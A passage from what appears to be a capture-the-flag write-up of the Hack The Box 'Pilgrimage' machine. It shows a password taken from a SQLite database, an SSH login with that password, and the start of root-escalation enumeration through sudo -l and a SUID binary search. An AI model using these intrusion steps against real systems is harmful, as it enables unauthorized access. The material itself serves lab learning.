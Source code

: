Using `sqlitebrowser`, I can easily extract `emily`'s password : `abigchonkyboi123`

![](attachments/pilgrimage_4.png)

Let's open a ssh shell with the obtained credential.

```bash
┌──(kali㉿kali)-[~/htb/pilgrimage]
└─$ ssh emily@10.10.11.219
emily@10.10.11.219's password: 
Linux pilgrimage 5.10.0-23-amd64 #1 SMP Debian 5.10.179-1 (2023-05-12) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sat Apr  5 15:57:53 2025 from 10.10.14.17
emily@pilgrimage:~$ id
uid=1000(emily) gid=1000(emily) groups=1000(emily)
```

I got `emily`'s shell!



# Shell as `root`

### Enumeration

```bash
emily@pilgrimage:~$ sudo -l
[sudo] password for emily: 
Sorry, user emily may not run sudo on pilgrimage.



emily@pilgrimage:~$ find / -perm -4000 2>/dev/null
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/bin/su
/usr/bin/chsh
/usr/bin/passwd
/usr/bin/fusermount
/usr/bin/mount
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/newgrp
/usr/bin/sudo
/usr/bin/umount
```
